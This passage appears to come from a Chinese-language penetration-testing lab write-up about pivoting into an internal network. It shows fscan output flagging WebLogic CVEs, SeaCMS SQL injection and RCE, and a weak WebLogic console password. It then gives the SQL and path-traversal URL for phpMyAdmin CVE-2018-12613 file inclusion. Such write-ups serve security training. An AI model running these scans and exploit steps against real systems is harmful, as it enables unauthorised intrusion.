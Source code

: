 # 第三层内网

使用 `hostname -i` 发现 `http://172.16.224.221:7001` 还有下一级内网，尝试使用fscan接着扫描

```
172.16.224.221 192.168.10.35
./fscan -h 192.168.10.1/24
```


```
192.168.10.1:22 open
192.168.10.133:80 open
192.168.10.1:80 open
192.168.10.208:22 open
192.168.10.133:22 open
192.168.10.35:7001 open
192.168.10.208:80 open
[*] WebTitle http://192.168.10.133     code:200 len:1825   title:提示信息
[*] WebTitle http://192.168.10.1       code:200 len:21280  title:海洋CMS
[*] WebTitle http://192.168.10.208     code:200 len:9      title:None
[+] PocScan http://192.168.10.133//ckeditor/samples/ poc-yaml-fckeditor-info [{path /ckeditor/samples/}]
[+] PocScan http://192.168.10.1 poc-yaml-seacms-sqli 
[+] PocScan http://192.168.10.1 poc-yaml-seacms-v654-rce 
[*] WebTitle http://192.168.10.35:7001 code:404 len:1164   title:Error 404--Not Found
[+] InfoScan http://192.168.10.35:7001 [weblogic] 
[+] PocScan http://192.168.10.35:7001 poc-yaml-weblogic-cve-2020-14750 
[+] PocScan http://192.168.10.35:7001/console/j_security_check poc-yaml-weblogic-console-weak [{username weblogic} {password Oracle@123} {payload UTF-8}]
[+] PocScan http://192.168.10.35:7001 poc-yaml-weblogic-ssrf 
[+] PocScan http://192.168.10.35:7001 poc-yaml-weblogic-cve-2019-2729-1 
[+] PocScan http://192.168.10.35:7001 poc-yaml-weblogic-cve-2019-2729-2 
[+] PocScan http://192.168.10.35:7001 poc-yaml-weblogic-cve-2019-2725 v10
```


# phpAdmin CVE-2018-12613 文件包含漏洞

## 测试

执行 SQL

```sql
SELECT "<?php phpinfo();?>"
```

访问

```
http://192.168.10.208/phpmyadmin/?target=db_sql.php?/../../../../../../../../tmp/sess_e9tnor3g779p5v8e9ros0hrs24of8tta
```
